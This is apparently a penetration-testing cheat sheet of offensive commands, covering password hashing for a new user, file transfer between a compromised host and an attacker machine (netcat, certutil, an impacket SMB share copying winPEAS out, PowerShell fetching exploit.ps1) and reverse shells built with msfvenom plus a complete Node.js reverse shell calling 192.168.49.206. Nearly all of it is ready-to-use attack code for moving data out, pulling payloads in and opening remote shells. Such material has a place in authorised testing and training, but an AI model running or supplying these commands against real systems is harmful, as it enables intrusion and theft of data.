 ### Create New User

```bash
# Linux
openssl passwd -1
```

### File Transfer

* [ ] Netcat:

```bash
# In host:
nc -w 3 192.168.49.99 9000 < file
# In kali:
nc -lvnp 9000 > file
```

* [ ] Certutil:

```bash
certutil -urlcache -f http:// shell.exe
```

* [ ] SMB:

```bash
impacket-smbserver.py share . -smb2support -username hacker -password hacker # launch smb server
C:\ net use \\10.10.14.134\share /u:hacker hacker # connect to smb server from host
C:\ copy winPEASx64.exe \\10.10.14.9\share\ # copy local file to attacker machine
C:\ net use /d \\10.10.14.9\share\ # disconnect from smb server
```

* [ ] Base64:

```bash
C:\ certutil -encode <file> encoded.txt
C:\ type encoded.txt` # copy files manually (ctrl+C)
kali> `echo -n "<Ctrl+V>" | base64 -d > decoded_file
```

* [ ] Powershell:

```shell
Invoke-WebRequest -Uri 'http://192.168.49.206/exploit.ps1' -OutFile 'C:\temp\exploit.ps1'
```

### Reverse Shells

#### msfvenom

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f elf -o revshell.elf
msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=1337 -f exe -o revshell.exe
```

#### nodejs

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(80, "192.168.49.206", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```